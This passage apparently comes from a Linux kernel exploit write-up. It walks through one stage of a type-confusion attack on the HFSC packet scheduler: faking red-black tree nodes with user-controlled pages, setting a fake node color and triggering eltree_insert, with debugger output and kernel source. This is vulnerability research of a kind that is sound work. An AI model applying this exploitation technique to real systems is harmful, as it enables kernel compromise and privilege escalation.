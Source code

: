 ```c
[2] Page 2
[3] Page 3 (P)
```

Inspecting the `el_node` structure (located 0xa0 bytes within class 2:1), we can confirm that all the `rb_node` pointers have now been replaced by pointers to user-controlled pages:

```c
gef➤  p *(struct rb_node *)0xffff88810a6d0ca0 // &cl->el_node (Class 2:1)
$5 = {
    __rb_parent_color = 0xffff88810ac1f000, // Page 1
    rb_right = 0xffff88810ac20000, // Page 2
    rb_left = 0xffff88810ac21000 // Page 3 (P)
}
```

>For each page in the page vectors, we also ensure that the first qword is set to 1. 
>The first qword of an `rb_node` correspond to the `__rb_parent_color`. 
>This means, we are actually faking a `RB_BLACK` color, so that when the type confusion occurs, the pages are considered black nodes. 
>Keep this in mind, as it will be useful in the next step.

**@step(6): Ptr copy (1/3): Trigger a RBTree insertion**

By sending a packet to class 2:2, it will be inserted into the eligible tree. 
When the packet is sent, the following chain of calls is triggered in kernel space: `hfsc_enqueue() -> init_ed() -> eltree_insert()`.

```c
static void
eltree_insert(struct hfsc_class *cl)
{
    struct rb_node **p = &cl->sched->eligible.rb_node; // Class 2:1 (now a pgv)
    struct rb_node *parent = NULL;
    struct hfsc_class *cl1;

    while (*p != NULL) {
        parent = *p; // [1]
        cl1 = rb_entry(parent, struct hfsc_class, el_node); // [2]
        if (cl->cl_e >= cl1->cl_e) // [3]
            p = &parent->rb_right;
        else
            p = &parent->rb_left;
    }
    rb_link_node(&cl->el_node, parent, p);
    rb_insert_color(&cl->el_node, &cl->sched->eligible);
}
```

In [eltree_insert()](https://elixir.bootlin.com/linux/v6.6.90/source/net/sched/sch_hfsc.c#L185) the tree is traversed to determine where to insert the new class node.

For each node, the class real address is derived using `rb_entry()` (which essentially subtracts `offsetof(struct hfsc_class, el_node) = 0xa0` bytes from the `&cl->elnode` address). 
Then, the `cl_e` field of the class is compared with that of the class being inserted. If the latter is greater, the right path is taken, otherwise the left path is taken.
